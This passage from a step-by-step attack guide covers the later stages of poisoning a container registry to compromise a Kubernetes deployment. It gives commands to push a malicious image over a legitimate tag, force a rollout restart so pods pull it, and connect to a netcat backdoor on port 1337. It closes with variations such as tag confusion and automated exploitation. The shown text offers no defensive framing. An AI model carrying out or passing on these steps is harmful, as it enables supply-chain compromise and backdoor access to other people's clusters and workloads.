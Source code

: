 **Explanation:** This command pushes the tagged malicious image to the container registry.  This step assumes you have the necessary credentials configured for `docker login` or equivalent authentication mechanism for your registry.

**Why:** This step overwrites or replaces the legitimate image with the malicious one in the registry, completing the poisoning attack.

**Expected Output:** Success message from the `docker push` command indicating that the image has been successfully uploaded to the registry.

**Step 7: Trigger a Pod Restart or Redeployment (to Pull the Poisoned Image)**

```bash
kubectl rollout restart deployment/my-app -n my-namespace
```

**Explanation:** This command restarts the `my-app` deployment in the `my-namespace` namespace.  This forces Kubernetes to pull the image from the registry.  Adjust the namespace and deployment name to match your target application.

**Why:** By restarting the deployment, we force Kubernetes to pull the (now poisoned) image from the registry and deploy a new pod using the malicious image.

**Expected Output:** The pod restarts and starts using the newly deployed (malicious) image.

**Step 8: Verify the Exploit (Connect to the Backdoor)**

```bash
kubectl get pods -n my-namespace # Get the name of the newly deployed pod
kubectl exec -it <pod-name> -n my-namespace -- /bin/bash # Or nc to localhost on exposed port, if applicable.
```
Alternatively, if the image has an exposed port (like our netcat example):
```bash
kubectl port-forward <pod-name> 1337:1337 -n my-namespace
nc localhost 1337
```

**Explanation:**
*   `kubectl get pods -n my-namespace`: Retrieves the name of the newly deployed pod.
*   `kubectl exec -it <pod-name> -n my-namespace -- /bin/bash`: Opens an interactive shell inside the pod. Replace `<pod-name>` with the actual pod name.
*   Alternatively, `kubectl port-forward` exposes port 1337 from the pod to your local machine, allowing you to connect to the netcat backdoor.

**Why:** This step confirms that the malicious image has been successfully deployed and that the backdoor is active.  If you can access a shell or connect to the exposed port, the exploit is successful.

**Expected Output:**  A shell prompt inside the pod, indicating that you have successfully connected to the backdoor. Or a successful netcat connection.

**Potential Variations and Alternative Approaches:**

*   **Tag Manipulation:** Instead of overwriting a tag, an attacker might push a new tag with a similar name (e.g., `v1-staging`) to trick users into accidentally using the malicious image.
*   **Namespace Confusion:** If a Kubernetes cluster uses multiple registries based on namespaces, an attacker might exploit misconfigurations to push an image to the wrong registry, causing the cluster to pull it unintentionally.
*   **Automated Exploitation:** This process can be automated using scripts that identify vulnerable images, build malicious images, push them to the registry, and trigger restarts.
